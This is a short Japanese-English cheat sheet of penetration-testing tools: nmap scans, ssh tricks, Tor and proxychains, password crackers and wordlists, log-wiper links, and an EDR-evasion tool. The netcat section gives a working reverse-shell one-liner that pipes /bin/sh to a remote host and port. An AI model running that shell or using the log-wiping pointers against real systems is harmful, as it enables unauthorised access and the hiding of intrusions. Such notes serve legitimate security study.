 # Tools

### nmap

https://nmap.org/

https://orebibou.com/ja/home/201506/20150603_001/

スクリプト：/usr/share/nmap/scripts

```bash
# 頻出ポートの一覧 (上位100)
nmap --top-ports 100 -oG - -v -sSU

# ポートスキャンしない：-Pn
# 名前解決しない：-n
# TCP -sT
# SYN -sS
# UDP -sU

# cheat sheet
curl cheat.sh/nmap
```

### ssh

リモートホストにコピー

```bash
cat file1 | ssh -f user@server 'cd $HOME; cat > file1'
```

踏み台設定

```txt
cat ~/.ssh/config
Host host2
     ProxyCommand ssh host1 nc %h %p
```

### Tor Browser

https://www.torproject.org/

[How To Access The Dark Web: What Is Tor And How Do I Access Dark Websites?](https://www.alphr.com/technology/1002667/how-to-access-the-dark-web-what-is-tor-and-how-do-i-use-it/#:~:text=Tor%20is%20an%20anonymity%20network,re%20logged%20into%20a%20website.)

[How To Use Tor Browser: Everything You MUST Know in 2021](https://www.vpnmentor.com/blog/tor-browser-work-relate-using-vpn/)

[Tor over VPN: Is it useful if you’re not a whistleblower?](https://cybernews.com/what-is-vpn/tor-over-vpn/)

### proxychains & tor

https://linuxhint.com/proxychains-tutorial/

https://www.geeksforgeeks.org/how-to-setup-proxychains-in-linux-without-any-errors/

### password

- 辞書ファイル、パスワードリスト
  - https://download.openwall.net/pub/wordlists/
- password cracker
  - https://www.openwall.com/john/
  - https://github.com/vanhauser-thc/thc-hydra
- password recovery
  - https://en.wikipedia.org/wiki/Cain_and_Abel_(software)

### log wipers

https://packetstormsecurity.com/UNIX/penetration/log-wipers

```bash
# current login users (utmp)
who
w

# login users info (wtmp)
last
ac -p

# last login users (lastlog)
lastlog
```

### netcat

```bash
rm /tmp/pipe; mkfifo /tmp/pipe; cat /tmp/pipe|/bin/sh -i 2>&1|nc 10.0.0.189 1234 > /tmp/pipe
```

### Services & Apps

https://www.crowdstrike.com/

https://chronicle.security/

https://www.fireeye.com/

https://www.darktrace.com/

https://www.blackberry.com/

https://www.menlosecurity.com/

https://www.shodan.io/

https://github.com/optiv/ScareCrow
